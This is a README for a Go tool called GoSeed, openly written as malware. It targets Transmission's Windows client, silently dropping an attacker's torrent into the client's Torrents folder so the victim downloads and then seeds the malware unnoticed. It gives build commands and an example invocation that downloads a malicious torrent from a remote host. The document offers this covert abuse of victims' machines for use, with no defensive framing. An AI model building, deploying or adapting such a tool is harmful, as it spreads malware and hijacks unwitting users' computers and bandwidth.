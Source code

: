 # Readme

This isn't a "spreading" technique technically, it's more of a way to force a victim to seed our malicious torrent file. This targets Transmission's Windows client.

Transmission's client has a folder named Torrents which contains a list of currently downloading torrents. We can add our malicious torrent here and it will begin to auto download when the user opens up Transmission. Once the download is finished, then the victim will begin seeding our malware that is inside the torrent. This relies on the user somehow not noticing that our torrent is being downloaded and seeded. 

# Compiling

You need to install [grequests](https://github.com/levigross/grequests) in order to compile the code. This can be installed via:

* `go get -u github.com/levigross/grequests`

Then you compile via:

* `GOOS=windows GOARCH=386 go build seed.go`

# Usage

GoSeed is a command-line tool, you pass the URL to the malicious torrent file to the *-url* flag and the malware will:

1. Check to see if Transmission is installed
2. If installed, it will generate a random file name for the torrent
3. Download the torrent file to Transmission's Torrents/ folder
4. If it isn't installed, it will simply exit.


Example Usage: 

* `seed.exe -url http://192.168.1.231:8000/malware.torrent`
